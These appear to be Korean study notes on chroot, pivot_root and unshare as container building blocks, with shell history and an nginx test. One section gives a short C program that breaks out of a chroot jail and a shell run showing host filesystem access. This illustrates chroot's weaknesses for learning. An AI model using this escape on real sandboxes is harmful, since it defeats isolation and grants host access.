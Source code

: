 # chroot



https://shop.kt.com/unify/mobile.do?&category=usedphone

https://download.virtualbox.org/virtualbox/7.0.0_BETA1/

https://velog.io/@sblee/m1-mac%EC%97%90%EC%84%9C-virtualBox-%EC%82%AC%EC%9A%A9%ED%95%98%EA%B8%B0

- man ldd # ldd prints the shared libraries required
- wman vdso # *-vdso 는 커널레벨에서 제공되는 공유 라이브러리입니다.  

~~~
   13  cp /lib/aarch64-linux-gnu/libtinfo.so.6 new-root/lib/
   14  ldd /usr/bin/bash
   15  cp /lib/aarch64-linux-gnu/libdl.so.2 new-root/lib/
   16  cp /lib/aarch64-linux-gnu/libc.so.6 new-root/lib/
   17  cp /lib/ld-linux-aarch64.so.1 new-root/lib/
   18  chroot new-root /bin/bash
   19  which ls
   20  ldd /usr/bin/ls
   21  cp /lib/aarch64-linux-gnu/libselinux.so.1 new-root/lib/
   22  cp /lib/aarch64-linux-gnu/libc.so.6 new-root/lib
   23  cp /lib/aarch64-linux-gnu/libc.so.6 new-root/lib/
   24  cp /lib/ld-linux-aarch64.so.1 new-root/lib/
   25  cp /lib/aarch64-linux-gnu/libpcre2-8.so.0 new-root/lib/
   26  cp /lib/aarch64-linux-gnu/libdl.so.2 new-root/lib/
   27  cp /lib/aarch64-linux-gnu/libpthread.so.0 new-root/lib/
   28  chroot new-root /bin/bash
   29  ls
   30  cd new-root/lib/
   31  ls
   32  cd ..
   33  ls
   34  cd bin
   35  ls
   36  cd ..
   37  ls
   38  cd lib
   39  ls
   40  ll
   41  ldd /usr/bin/ls
   42  ldd /bin/ls
   43  ls
   44  cd
   45  cd /
   46  ls
   47  cp /lib/aarch64-linux-gnu/libselinux.so.1 /new-root/lib/
   48  cp /lib/aarch64-linux-gnu/libc.so.6 /new-root/lib/
   49  cp /lib/ld-linux-aarch64.so.1 /new-root/lib/
   50  cp /lib/aarch64-linux-gnu/libpcre2-8.so.0 /new-root/lib/
   51  cp /lib/aarch64-linux-gnu/libdl.so.2 /new-root/lib/
   52  cp /lib/aarch64-linux-gnu/libpthread.so.0 /new-root/lib/
   53  chroot /new-root/ /bin/bash
   54  which mkdir
   55  ldd /usr/bin/mk
   56  ldd /usr/bin/mkdir
   57  cp /lib/aarch64-linux-gnu/libc.so.6 /new-root/lib
   58  cp /lib/aarch64-linux-gnu/libc.so.6 /new-root/lib/
   59  cp /lib/ld-linux-aarch64.so.1 /new-root/lib/
   60  cp /lib/aarch64-linux-gnu/libpcre2-8.so.0 /new-root/lib/
   61  cp /lib/aarch64-linux-gnu/libdl.so.2 /new-root/lib/
   62  cp /lib/aarch64-linux-gnu/libpthread.so.0 /new-root/lib/
   63  chroot new-root /bin/bash
   64  ls
   65  cd new-root/lib/
   66  ls
   67  ls -;
   68  ls -l
   69  cd /
   70  ldd /bin/cat
   71  cp /lib/aarch64-linux-gnu/libc.so.6 /new-root/lib/
   72  cp /lib/ld-linux-aarch64.so.1 /new-root/lib/
   73  chroot new-root /bin/bash
   74  cp /usr/bin/ls /new-root/bin/
   75  cp /usr/bin/mkdir /new-root/bin/
   76  cp /usr/bin/cat /new-root/bin/
   77  chroot new-root bin
   78  chroot new-root /bin/bash
   79  history
~~~













### nginx 테스트

- nginx image 를 다운로드 받고
- chroot로 접근한 후 nginx를 실행시킬 수 있다.

~~~sh
$ docker export $(docker create nginx:latest) | tar -C nginx-root -xvf -
~~~

~~~sh
cd /tmp
chroot nginx-root /bin/sh # chroot로 실행

# ls
bin   dev		   docker-entrypoint.sh  home  media  opt   root  sbin	sys  usr
boot  docker-entrypoint.d  etc			 lib   mnt    proc  run   srv	tmp  var
~~~

~~~sh
nginx -g "daemon off;" # foreground 실행
curl localhost # nginx 페이지 조회
~~~





### 경로를 변경하는 코드 작성

~~~c
#include <sys/stat.h>
#include <unistd.h>

int main(void) {
	mkdir(".out", 0755);
	chroot(".out");
	chdir("../../../../../");
	chroot(".");
	
	return execl("/bin/sh", "-i", NULL);
}
~~~





### chroot 에서 탈출

- host filesystem에 접근 가능하다 (host root 권한 취득)

~~~sh
$ chroot new-root /bin/bash
$ ./escaape
$ ls
bin   dev	etc   lib	  media  new-root  proc  root2	sbin  srv	sys  usr
boot  escape.c	home  lost+found  mnt	 opt	   root  run	snap  swap.img	tmp  var
~~~



### chroot 문제점

isolation 안됨 - host filesystem, process tree, network, ipc 등에 접근 가능

root 권한 사용가능

resource 제한 안됨 : cpu, memory. i/o, network



## pivot_root

pivot_root [new] [old]

~~~
mount -t [filesystem type][device_name][directory - mount point]
root filesystem tree 에 다른 파일시스템을 붙이는명령
~~~

-t : filesystem type ( -t tmpfs)

-o:  옵션 ( -o size=1m)

/proc/filesystems 에서 지원하느 filesystem type 참고 가능 





### unshare

- 새로운 네임스페이스를 만들고 나서 프로그램을 실행하는 명령어.

~~~
unshare [options][program [arguments]]
creates new namespaces and then
executes the specified program (default: ${SEHLL})
~~~







~~~
$ mkdir ./new-root
$ mount -n -t tmpfs -o size=800M none ./new-root
$ mount | grep new-root
~~~



- unshare -m : mount namespace 를 분리하여 프로세스를 실행해 준다.
- pivot_root는 root filesystem의 mount point 를 변경하기 때문에
- 호스트에 영향을 주지 않기 위해서 unshare -m 을 실행해서 호스트와 mount namespace 를 분리하였다.

~~~
cd new_root
unshare -m
~~~



~~~
pivot_root . old-root
cd /
ls
cd / && cd ../../../../
lso
~~~





























